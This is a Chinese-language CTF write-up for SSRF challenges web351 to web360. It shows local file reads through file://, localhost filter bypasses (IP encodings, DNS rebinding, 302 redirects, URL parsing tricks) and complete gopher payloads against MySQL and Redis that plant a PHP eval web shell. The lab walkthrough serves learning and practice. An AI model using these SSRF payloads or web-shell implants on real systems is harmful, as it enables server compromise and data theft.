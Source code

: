 # 例题分析

# web351

首先代码审计，简简单单的使用php的curl，发现没有过滤，尝试读取本地文件

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

post数据`url=file:///etc/passwd`，有回显，从Burp抓包信息我看到了是nginx尝试读取nginx的配置文件

```
url=file:///etc/nginx/nginx.conf
daemon off;

worker_processes  auto;

error_log  /var/log/nginx/error.log warn;

events {
    worker_connections  1024;
}

http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    keepalive_timeout  65;

    server {
        listen       80;
        server_name  localhost;
        root         /var/www/html;
        index index.php;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

        location / {
            try_files $uri  $uri/ /index.php?$args;
        }

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_pass   127.0.0.1:9000;
            fastcgi_index  index.php;
            include        fastcgi_params;
            fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
        }

    }
}
```

没啥太多关键信息，主要是说了根目录，然后还发现这里有fastcgi！！！意味着我们可以通过gopher协议打fastcgi，我测试了ok的成功了，但是我们这里还是讲以下预期解

采用file协议读取flag.php

```
url=file:///var/www/html/flag.php
```

F12查看注释获取flag

```
<?php
$flag="flag{15a45540-97e2-47d8-a505-2cd9bac4ea94}";
if($_SERVER['REMOTE_ADDR']=='127.0.0.1'){
		echo $flag;
}
else{
		die("非本地用户禁止访问");
}
?>
```



# web352-353

进制绕过,这里有个在线转换网站

https://tool.520101.com/wangluo/jinzhizhuanhuan/

然后post

```
url=http://2130706433/flag.php
```

其他更改 IP 地址写法也行

```
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php
还有一种特殊的省略模式
127.0.0.1写成127.1
用CIDR绕过localhost
url=http://127.127.127.127/flag.php
还有很多方式不想多写了
url=http://0/flag.php
url=http://0.0.0.0/flag.php
```

# web354

DNS-Rebinding攻击绕过

```
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

302跳转绕过也行，在自己的网站主页加上这个

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

或者说群主说我丧心病狂的方式

```
我自己的域名A记录设为了127.0.0.1
```

或者有个现成的A记录是127.0.0.1的网站

```
url=http://sudo.cc/flag.php
```

# web355

设置了$host<5的限制，随便来个利用127.0.0.1=127.1刚好是5位

```
url=http://127.1/flag.php
```

# web356

更绝了限制$host<3，老规矩

```
url=http://0/flag.php
```

# web357

关键代码，不能是一些私有地址

```
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}

```

- FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
- FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
- FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
- FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

用web354说过的DNS-Rebinding与302跳转即可解题



# web358

限制是这个

```
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

blackhat议题加上url解析特性php的curl默认是@后面的部分加上?url解析的时候会把他当成url解析的get请求参数

```
url=http://ctf.@127.0.0.1/flag.php?.show
```

# web359

使用工具gopherus生成即可，[工具地址](https://github.com/tarunkant/Gopherus)

```
Give MySQL username: root                                                                                                                                  
Give query to execute: select '<?php eval($_POST[pass]); ?>' INTO OUTFILE '/var/www/html/2.php';
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

然后注意

```
这部分url需要特殊字编码，curl会默认解码一次
%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

# web360

没啥好说的gopher打redis

```
url=gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252432%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255Bpass%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

然后访问shell.php，里面的内容是这个

```
<?php eval($_POST[pass]); ?>
```

